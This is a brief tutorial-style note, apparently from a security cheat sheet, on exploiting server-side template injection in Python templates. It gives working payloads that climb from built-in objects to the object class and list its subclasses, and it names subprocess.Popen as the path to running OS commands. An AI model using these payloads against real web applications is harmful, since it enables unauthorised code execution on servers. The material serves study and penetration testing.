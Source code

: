 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>
```

2. Finding subclasses to abuse
```
{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>,..., <class 'subprocess.Popen'>,...]
```

The subprocess.Popen class allows us to run os commands and is of interest.

